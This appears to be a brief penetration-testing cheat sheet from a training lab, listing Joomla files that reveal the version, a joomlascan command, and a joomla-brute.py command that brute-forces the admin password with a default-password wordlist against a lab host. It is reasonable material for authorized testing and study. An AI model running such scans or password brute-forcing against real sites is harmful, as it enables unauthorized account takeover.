 ## Possible files to fingerprint version. ##
/administrator/manifests/files/joomla.xml
/README.txt

## Joomla Scan Commands ##
python2.7 joomlascan.py -u http://dev.inlanefreight.local

## Joomla Brute Password Brute Force (Admin) ##
python3 joomla-brute.py -u http://dev.inlanefreight.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
